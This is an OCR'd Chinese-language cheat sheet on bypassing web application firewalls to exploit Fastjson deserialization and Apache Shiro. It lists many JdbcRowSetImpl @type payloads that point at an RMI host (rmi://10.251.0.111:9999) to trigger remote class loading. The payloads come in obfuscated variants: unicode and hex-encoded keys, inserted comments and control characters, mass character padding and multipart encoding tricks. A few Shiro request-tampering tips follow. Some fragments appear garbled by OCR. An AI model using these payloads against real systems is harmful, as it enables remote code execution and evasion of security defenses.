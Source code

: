 ```php
{
    "@type":"org.example.User",
    "username":"1",
    "f":"a*20000"  //2万个a
}
```

绕过 WAF ，在部分中间件中，multipart 支持指定 Content-Transformer-Encoding 可以使用 Base64 或 quoted-printable （QP 编码） 来绕过 WAF

#### 大量字符绕过 WAF

```php
[11111111111111111111111111111111111,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,[11111111111111111111111111111111111... ,...,{'\x40\u0074\x79\u0070\x65':xjava.lang.AutoCloseable"... ]]]]]
```

各种特性

```php
,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.lang.AutoClosea ble"
```

Fastjson默认会去除键、值外的空格、`\b`、`\n`、`\r`、`\f`等，同时还会自动将键与值进行unicode与十六进制解码。

```php
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}

{  "@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}

{/*s6*/"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}

{\n"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}

{"@type"\b:"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}

{"\u0040\u0074\u0079\u0070\u0065":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}  {"\x40\x74\x79\x70\x65":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://10.251.0.111:9999","autoCommit":true}
```

shiro怎么绕waf 如果cookie限制怎么绕
=========================

```php
尝试host回车，TAB
协议转换，尝试post请求
利用burp将数据包的GET替换成LOL即可 /删除请求

https://www.secpulse.com/archives/179873.html
https://zhuanlan.zhihu.com/p/573434218
https://blog.csdn.net/xd_2021/article/details/123720314
```

